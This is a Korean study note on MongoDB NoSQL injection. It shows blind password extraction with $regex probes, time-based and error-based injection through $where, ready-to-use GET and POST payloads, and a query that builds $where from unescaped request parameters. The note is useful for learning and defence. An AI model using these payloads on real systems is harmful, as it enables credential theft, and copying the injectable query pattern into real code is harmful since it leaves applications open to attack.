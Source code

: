 ```javascript
});
```
* ```$regex```를 이용해 admin 계정의 비밀번호를 획득하는 방법
    - 비밀번호의 길이 정보 획득
        | Post Data | 설명 | 결과 |
        |-----|------|----|
        | { "uid": "admin", "upw": {"$regex": ".{5}"}} | upw의 길이가 5인지 확인 | admin 출력 |
        | { "uid": "admin", "upw": {"$regex": ".{6}"}} | upw의 길이가 6인지 확인 | undefined 출력 |
        + 정규식 ```.{숫자}```에서 ```.```은 모든 문자 하나와 일치하고, ```{...}```은 반복을 나타냄 → 중괄호 안의 숫자만큼 ```.```을 반복함
    - 비밀번호의 길이를 확인한 후 입력의 시작 부분을 나타내는 ```^```를 이용하여 위치 별로 알파벳 소문자를 하나씩 비교해가며 응답에 따라 참/거짓을 확인할 수 있음
        | Post Data | 설명 | 결과 |
        |-----|------|----|
        | {"uid": "admin", "upw": {"$regex" : "^b"}} | upw의 첫 글자가 b인지 확인 | undefined |
        | {"uid": "admin", "upw": {"$regex" : "^a"}} | upw의 첫 글자가 a인지 확인 | admin (첫 글자는 a) |
        | {"uid": "admin", "upw": {"$regex" : "^aa"}} | upw의 두번째 글자가 a인지 확인 | undefined |
        | ... | ... | ... |
        | {"uid": "admin", "upw": {"$regex" : "^apple"}} | upw의 다섯번째 글자가 e인지 확인 | admin (비밀번호는 apple) |

<br/><br/>

### MongoDB Error & Time based Injection
MongoDB에서 쿼리 결과를 애플리케이션의 기능에서 출력하지 않는 경우 임의로 에러를 발생시키거나 시간 지연을 통해서 SQL Injection 성공 여부를 알아낼 수 있음
* ```$where``` 연산자를 통해서 Error & Time based Injection을 수행할 수 있음
    | SQL Injection 종류 | 공격 방법 |
    |-----|-------|
    | Time based Injection | 쿼리의 뒤에 AND 연산자를 사용해 시간 지연을 발생시키는 함수 ```sleep()```을 연결함 <br/>&nbsp;&nbsp; → 앞의 쿼리의 결과가 참이라면 시간 지연 함수가 실행됨 |
    | Error based Injection | 쿼리의 뒤에 AND 연산자를 사용해 문법 에러 등 에러를 발생시킬 수 있는 문자열 등을 삽입함 <br/>&nbsp;&nbsp; → 앞의 쿼리의 결과가 참이라면 에러가 발생됨 |

<br/>

#### *MongoDB Error & Time based Injection 예시*
```javascript
// 데이터 조회 코드
db.collection('user').find(
    {$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`}
)
```
* MongoDB Time based Injection을 사용하여 Blind Injection을 수행하는 방법
    - AND 연산자를 사용해 결과가 참이 되면 시간 지연 함수 ```sleep()```가 실행되도록 함
        | [GET] URL 뒷부분 | 설명 | 결과 |
        |-----|-----|---|
        | ```/?uid=admin'&&this.upw.substring(0,1)=='u'&&sleep(5000)&&'1``` | uid가 'admin'이고 upw의 첫번째<br/> 문자가 u이면 sleep(5000)를 실행함 | 시간 지연<br/> 발생 X (거짓) |
        | ```/?uid=admin'&&this.upw.substring(0,1)=='p'&&sleep(5000)&&'1``` | uid가 'admin'이고 upw의 첫번째<br/> 문자가 p이면 sleep(5000)를 실행함 | 시간 지연<br/> 발생 X (거짓) |
        | ... | ... | ... |
        | ```/?uid=admin'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1``` | uid가 'admin'이고 upw의 첫번째<br/> 문자가 a이면 sleep(5000)를 실행함 | 시간 지연<br/> 발생 (참) |
* MongoDB Error based Injection을 사용하여 Blind Injection을 수행하는 방법
    - AND 연산자를 사용해 결과가 참이 되면 문법 에러가 발생하는 ```asdf```가 실행되도록 함
        + [POST] Post Data: ```{$where: "this.uid=='admin'&&this.upw.substring(0,1)=='u'&&asdf&&'1'&&this.upw=="${upw}'"}```
            - uid가 'admin'이고 upw의 첫번째 문자가 u이면 asdf에 의해 문법 에러 발생 → 에러 발생 X (거짓)
        + [POST] Post Data: ```{$where: "this.uid=='admin'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=="${upw}'"}```
            - uid가 'admin'이고 upw의 첫번째 문자가 a이면 asdf에 의해 문법 에러 발생 → 에러 발생 (참)

